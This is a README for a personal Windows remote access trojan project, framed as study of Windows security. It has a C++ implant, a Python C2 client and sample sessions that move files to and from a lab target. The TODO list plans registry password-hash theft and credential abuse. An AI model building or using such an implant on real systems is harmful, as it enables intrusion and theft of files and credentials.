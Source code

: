 # Windows-RAT
This repository will serve as an exploratory environment where I will rely primarily on C++ and Windows APIs to delve into the deeper aspects of Windows security management along with the varying components and architectures that come within the Windows environment.

## Repository Breakdown

### RAT-DLL
All cpp *implant* side code that will, upon executing, open up a port on target and listen for commands sent by the user via Python CLI.

### RAT-Py
All py *client* side code that will, upon executing, open up a port on client and send commands to the implant via user input in the CLI.

### RAT-Exe
All cpp *implant* side code that will, upon executing, survey the target prior to loading our DLL that implements our functionality and opens communications back to client to accept commands.

### Pcaps
Packet captures between C2 and implant in a test environment for different commands. These help reinforce how interaction between our C2 and implant works for each command type. 

## Assumptions
Current assumptions will include:
- The user has access to the target machine + network
- The user has the ability to or already has dropped .exe and .dll on target
- The user has remote shell/execution capabilities to launch payload on target
- Traditional antivirus programs have been disabled/mitigated

## Testing Environment
- Target machine is Window 10 Education version 10.0.19043 build 19043
- Python version for client is 3.7.16 (important for scapy use)

## Build Environment
- Visual Studio 2019 version 16.11.20

## Examples
### Startup
#### Required Args:
- ip - IP address of target
- port - port number our implant is listening on
#### Optional Args:
- N/A
```
pjsacchet@Patrick-Desktop:/mnt/c/Users/Admin/Projects/Personal/Windows-RAT/RAT-Py$ python3 RAT_Py_Main.py -ip 192.168.111.128 -port 1550
Reaching out to agent for connection establishment... 
Connected to agent at 192.168.111.128 on port 1550 
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit

```

### Perform a *put file*
#### Required Args:
- filepath - Path (locally) to file with contents we are writing to target
- outfilepath - Remote file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 1
Required params:

               -filepath - local path to file we are writing

               -outputfilepath - remote path we are writing to

Optional params:

               -overwrite - overwrite the file if it already exists (default: false)

> -filepath /mnt/c/Users/Admin/Projects/Personal/test.txt -outputfilepath C:\test2.txt
Sending command...
Sending file path...
Sending file contents...
Sending overwrite...
Sent data to implant; waiting on response code...
Successful file put!
Please select from the following options:

                1) Write a file to a location on target

                2) Get a file from a specific location on target

                0) Exit
```

### Perform a *get file*
#### Required Args:
- filepath - File path on target to the file we want to get 
- outfilepath - Local file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 2
Required params:

                -filepath - path to file on target

                -outfilepath - file to write to locally
Optional params:
                - overwrite - overwrite the file locally if it already exists
                
> -filepath C:\test.txt -outfilepath /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Successful file get! Getting file contents...
Successfully wrote file contents to /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit
```

## TODO
### Exisiting Features: 
- Flesh out getfile functionality
  - Eventually add flags for offsets into file and chunksizes to send back to C2?
- Flesh out putfile functionality
  - Implement C2 OK messages to ensure it has the param or resend if need be
  
### New Features:
- Implement dir lists
- Implement password hash stealing via registry reads 
- Implement registry key read/write add/delete
- Implement get system info 
- Implement screenshot
- Implement COM stuff?
- Implement remote cred auth (kerberos, ntlm etc.)
- Implement basic encryption? 
  - Give both implant and C2 same key or something
